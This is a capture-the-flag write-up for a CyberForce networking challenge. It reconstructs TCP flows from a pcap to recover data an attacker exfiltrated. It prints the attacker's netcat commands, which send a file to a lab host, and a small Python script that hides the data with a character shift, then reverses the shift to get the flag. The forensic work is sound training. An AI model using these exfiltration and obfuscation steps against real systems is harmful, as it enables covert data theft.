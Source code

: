 '19CyberForce Anomaly 49 - Networking
===
[README.txt](./README.txt)
>Our wily hacker does want the snooping admins to see the data content that is being stolen and has used a few tricks to mix things up.
>
>From the pcap file, find the original data content that the hacker exfiltrated. 
>
>Flag is in the "cfc{}" format. 

There was only one file provided, which is [**sneak_exfil_clean.pcapng**](./sneak_exfil_clean.pcapng)
 .pcapng is an extension of the pcap file, which is a Wireshark file, therefore, there must be packages, which were captured over the network.
A tool that analizes network traffic and it captures data over TCP connections is tcpflow.

```
[pasheva]$ tcpflow -d2 -r sneak_exfil_clean.pcapng 
reportfilename: ./report.xml
tcpflow: retrying_open ::open(fn=010.000.000.010.51686-010.000.000.002.01337,oflag=xc2,mask:x1b6)=5
tcpflow: retrying_open ::open(fn=010.000.000.002.01337-010.000.000.010.51686,oflag=xc2,mask:x1b6)=6
tcpflow: retrying_open ::open(fn=010.000.000.010.41820-010.000.000.002.01338,oflag=xc2,mask:x1b6)=7
tcpflow: retrying_open ::open(fn=010.000.000.002.52962-010.000.000.010.01339,oflag=xc2,mask:x1b6)=7
tcpflow: Open FDs at end of processing:      2
tcpflow: demux.max_open_flows:               3
tcpflow: Flow map size at end of processing: 2
tcpflow: Flows seen:                         6
tcpflow: Total flows processed: 6
tcpflow: Total packets processed: 39
```
We do end up with 4 files dumped. We can futher analize what type of files those are.
```
[pasheva]]$ file 010.000.000.002.01337-010.000.000.010.51686
010.000.000.002.01337-010.000.000.010.51686: ASCII text

important.txt
important.txt
wannahide.py
s:  important.txt
my dude, file is ready for exfil
hidden_loot.txt
important.txt
wannahide.py
```

```
[pasheva]$ file 010.000.000.010.41820-010.000.000.002.01338
010.000.000.010.41820-010.000.000.002.01338: Python script, ASCII text executable


#!/usr/bin/python
import sys

ofilename = "hidden_loot.txt"

if len(sys.argv) < 2: 
	print "not enough args"
	exit()

ih = open(sys.argv[1], "r")
oh = open(ofilename, "w")

print "s: ", sys.argv[1]

with open(sys.argv[1]) as ih:
	for line in ih:
		for ch in line:
			oh.write(chr(ord(ch)-0xa))
print "my dude, file is ready for exfil" 

```
```
[pasheva]$ file 010.000.000.002.52962-010.000.000.010.01339
010.000.000.002.52962-010.000.000.010.01339: ASCII text, with no line terminators

Y\Yqm_h;i^WHaIjWhs
```

```
challB]$ file 010.000.000.010.51686-010.000.000.002.01337
010.000.000.010.51686-010.000.000.002.01337: ASCII text

ls
nc -l -p 1338 > wannahide.py
ls
python wannahide.py important.txt
ls
nc -w 3 1339 < hidden_loot.txt
nc -w 3 10.0.0.10 1339 < hidden_loot.txt
```
This porvide us with some information of the structure. We can also see that any input that has been lstened to on port 1338 has been redirected to the python file.
I renamed the string to [important.txt](./010.000.000.002.52962-010.000.000.010.01339) and the python file to [wannahide.py](./010.000.000.010.41820-010.000.000.002.01338)
```
[pasheva]$  python wannahide.py importnat.txt
s:  importnat.txt
Traceback (most recent call last):
  File "wannahide.py", line 19, in <module>
    oh.write(chr(ord(ch)-0xa))
ValueError: chr() arg not in range(0x110000)
```
Every character has been converted to ASCII value and shifted down by 10 so we can do the reverse and shift it up. 
```diff
-oh.write(chr(ord(ch)-0xa))
+oh.write(chr(ord(ch)+0xa))
```
Running again the python file get us the hidden_lost.txt file, which
has the [**flag**](./hidden_loot.txt):
>cfc{wirEshaRkStar}